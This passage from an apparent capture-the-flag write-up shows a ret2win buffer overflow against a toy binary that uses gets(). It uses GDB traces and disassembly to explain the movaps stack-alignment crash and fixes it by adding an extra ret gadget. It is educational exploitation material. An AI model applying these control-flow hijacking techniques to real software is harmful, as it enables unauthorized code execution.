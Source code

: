 ```nasm
     0x4011eb <read_in+54>     call   0x401090 <gets@plt>
     0x4011f0 <read_in+59>     nop    
     0x4011f1 <read_in+60>     leave  
 →   0x4011f2 <read_in+61>     ret    
   ↳    0x401196 <win+0>          endbr64 
        0x40119a <win+4>          push   rbp
        0x40119b <win+5>          mov    rbp, rsp
        0x40119e <win+8>          lea    rax, [rip+0xe63]        # 0x402008
        0x4011a5 <win+15>         mov    rdi, rax
        0x4011a8 <win+18>         mov    eax, 0x0
```

Using `ni`, we see that the program successfully makes it to `win()`. Our payload successfully takes us to the right place! If we continue execution to let it print the flag, we see that it segfaults:

```nasm
[#0] Id 1, Name: "win64", stopped 0x7fc438850963 in __sigemptyset (), reason: SIGSEGV
```

We notice that it stops on the `movaps` instruction inside of `do_system`:

```nasm
 → 0x7fc438850963 <do_system+115>  movaps XMMWORD PTR [rsp], xmm1
```

From the call trace, we see that this is called from `win()` calling `system()`, as expected:

```nasm
[#0] 0x7fc438850963 → __sigemptyset(set=<optimized out>)
[#1] 0x7fc438850963 → do_system(line=0x402008 "cat flag.txt")
[#2] 0x4011b2 → win()
```

This is known as the **`movaps` fault**. This happens because `movaps` expects the stack to be `16-byte` aligned. However, we diverted execution away from the standard execution flow, so there's no guarantee that the stack is aligned. Furthermore, we are writing `56` bytes to the stack, which is not a multiple of `16`. This means that the stack is not aligned and `movaps` will segfault.

How can we fix this? We can add `8` bytes to the payload, which will make it `64` bytes (which is a multiple of `16`). The standard solution for this is to _divert to another return_, which will effectively add `8` bytes to the payload and not affect the rest of the execution. Let's find another `ret` to divert to. It doesn't matter which you pick, I randomly chose the one inside `deregister_tm_clones`:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  disas deregister_tm_clones
Dump of assembler code for function deregister_tm_clones:
   0x00000000004010f0 <+0>:	mov    eax,0x404048
   0x00000000004010f5 <+5>:	cmp    rax,0x404048
   0x00000000004010fb <+11>:	je     0x401110 <deregister_tm_clones+32>
   0x00000000004010fd <+13>:	mov    eax,0x0
   0x0000000000401102 <+18>:	test   rax,rax
   0x0000000000401105 <+21>:	je     0x401110 <deregister_tm_clones+32>
   0x0000000000401107 <+23>:	mov    edi,0x404048
   0x000000000040110c <+28>:	jmp    rax
   0x000000000040110e <+30>:	xchg   ax,ax
   0x0000000000401110 <+32>:	ret  
```
{% endtab %}
